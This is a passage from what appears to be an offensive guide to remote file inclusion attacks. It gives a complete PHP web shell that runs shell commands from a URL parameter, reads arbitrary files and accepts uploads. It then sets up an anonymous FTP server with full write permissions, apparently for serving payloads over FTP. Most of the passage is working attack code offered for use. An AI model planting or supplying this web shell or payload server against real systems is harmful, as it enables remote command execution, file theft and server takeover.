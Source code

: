 ### Advanced HTTP RFI

**Multi-Function Web Shell:**
```php
<?php
// Advanced web shell with multiple functions
if(isset($_GET['cmd'])) {
    echo "<pre>";
    echo shell_exec($_GET['cmd']);
    echo "</pre>";
} elseif(isset($_GET['file'])) {
    echo file_get_contents($_GET['file']);
} elseif(isset($_GET['upload'])) {
    if(isset($_FILES['file'])) {
        move_uploaded_file($_FILES['file']['tmp_name'], $_FILES['file']['name']);
        echo "File uploaded successfully!";
    } else {
        echo '<form method="post" enctype="multipart/form-data">
                <input type="file" name="file">
                <input type="submit" value="Upload">
              </form>';
    }
} else {
    echo "Advanced Web Shell<br>";
    echo "Usage: ?cmd=command | ?file=path | ?upload=1";
}
?>
```

---

## Method 2: FTP Protocol RFI

### FTP Server Setup

**Install and Configure FTP Server:**
```bash
# Install pyftpdlib
pip3 install pyftpdlib

# Start FTP server
sudo python3 -m pyftpdlib -p 21 -d /path/to/files -w

# Alternative: Use built-in FTP
sudo python3 -c "
from pyftpdlib.authorizers import DummyAuthorizer
from pyftpdlib.handlers import FTPHandler
from pyftpdlib.servers import FTPServer

authorizer = DummyAuthorizer()
authorizer.add_anonymous('/path/to/files', perm='elradfmwMT')

handler = FTPHandler
handler.authorizer = authorizer

server = FTPServer(('0.0.0.0', 21), handler)
server.serve_forever()
"
```
